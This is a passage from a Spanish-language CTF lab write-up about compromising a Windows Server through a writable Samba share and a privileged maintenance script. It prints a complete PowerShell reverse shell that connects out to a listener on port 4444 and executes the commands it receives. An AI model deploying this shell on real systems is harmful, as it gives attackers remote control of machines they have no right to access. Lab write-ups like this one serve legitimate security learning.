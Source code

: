 ### Creación del Archivo `shell.ps1`

Creamos el script `shell.ps1` que contendrá el código de la reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.36", 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close()
```

Nos ponemos en escucha con `nc` en el puerto 4444 y levantamos un servidor web en Python para servir el archivo `shell.ps1`.


![Imagen del mensaje 'source' en index.html](</img/posts/CTF/quokka/shell.png>) 
![Imagen del mensaje 'source' en index.html](</img/posts/CTF/quokka/shell.png>) 



## Conclusión

En este laboratorio, hemos explotado vulnerabilidades en IIS y Samba para obtener acceso a un sistema Windows Server. Las vulnerabilidades clave incluían una configuración incorrecta en el servicio Samba, permitiendo el acceso de `guest` con permisos de lectura y escritura, y la posibilidad de modificar un script de mantenimiento con permisos elevados. Esto nos permitió inyectar un reverse shell para ganar control sobre la máquina.

